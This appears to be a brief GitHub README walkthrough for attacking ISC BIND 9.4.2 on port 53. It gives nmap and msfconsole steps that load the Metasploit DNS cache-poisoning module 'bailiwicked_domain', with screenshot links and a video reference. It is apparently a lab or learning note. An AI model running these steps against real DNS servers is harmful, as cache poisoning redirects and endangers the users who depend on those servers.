 # Port-53-domain-ISC-BIND-9.4.2
1.nmap -sV (target ip)
![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/a884287b-d9c3-4bc1-86a1-fdc5b2aeecbf)
2.msfconsole
3.msf 6 > search bailiwicked_domain
![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/4d97949d-674b-4098-b6dc-2c3856266762)
4.msf 6 > use auxiliary/spoof/dns/bailiwicked_domain
![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/1a086e29-9adc-42bc-b1db-7d4bde73d5a0)
Referance : https://www.youtube.com/watch?v=T6miFkd6z_4
